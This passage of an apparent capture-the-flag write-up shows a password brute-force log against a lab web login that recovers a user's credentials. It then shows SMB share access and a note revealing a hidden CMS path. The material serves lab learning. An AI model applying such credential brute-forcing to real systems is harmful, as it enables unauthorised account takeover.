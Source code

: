 ```bash
[ATTEMPT] target 10.10.36.101 - login "milesdyson" - pass "terminator22596" - 2 of 31 [child 1] (0/0)
[ATTEMPT] target 10.10.36.101 - login "milesdyson" - pass "terminator219" - 3 of 31 [child 2] (0/0)
[ATTEMPT] target 10.10.36.101 - login "milesdyson" - pass "terminator20" - 4 of 31 [child 3] (0/0)
[ATTEMPT] target 10.10.36.101 - login "milesdyson" - pass "terminator1989" - 5 of 31 [child 4] (0/0)
[ATTEMPT] target 10.10.36.101 - login "milesdyson" - pass "terminator1988" - 6 of 31 [child 5] (0/0)
[ATTEMPT] target 10.10.36.101 - login "milesdyson" - pass "terminator168" - 7 of 31 [child 6] (0/0)
[ATTEMPT] target 10.10.36.101 - login "milesdyson" - pass "terminator16" - 8 of 31 [child 7] (0/0)
[ATTEMPT] target 10.10.36.101 - login "milesdyson" - pass "terminator143" - 9 of 31 [child 8] (0/0)
[ATTEMPT] target 10.10.36.101 - login "milesdyson" - pass "terminator13" - 10 of 31 [child 9] (0/0)
[ATTEMPT] target 10.10.36.101 - login "milesdyson" - pass "terminator123!@#" - 11 of 31 [child 10] (0/0)
[ATTEMPT] target 10.10.36.101 - login "milesdyson" - pass "terminator1056" - 12 of 31 [child 11] (0/0)
[ATTEMPT] target 10.10.36.101 - login "milesdyson" - pass "terminator101" - 13 of 31 [child 12] (0/0)
[ATTEMPT] target 10.10.36.101 - login "milesdyson" - pass "terminator10" - 14 of 31 [child 13] (0/0)
[ATTEMPT] target 10.10.36.101 - login "milesdyson" - pass "terminator02" - 15 of 31 [child 14] (0/0)
[ATTEMPT] target 10.10.36.101 - login "milesdyson" - pass "terminator00" - 16 of 31 [child 15] (0/0)
[80][http-post-form] host: 10.10.36.101   login: milesdyson   password: cyborg007haloterminator
[STATUS] attack finished for 10.10.36.101 (valid pair found)
```
We have a hit!

<p align="center">
  <img class="image" width="auto" height="auto" src="https://imgur.com/Eixg1Ic.png">
</p>

The account has 3 emails in the inbox.

One contains an email with a new password for smb.

Log back into SMB with the `milesdyson` share. This contains some random files. One sticks out called `important.txt`

```bash
cat important.txt
1. Add features to beta CMS /45kra24zxs28v3yd
2. Work on T-800 Model 101 blueprints
3. Spend more time with my wife
```
Number 3 is a good life tip!

Let's see what is in this new directory

<p align="center">
  <img class="image" width="auto" height="auto" src="https://imgur.com/SWTe6rq.png">
</p>

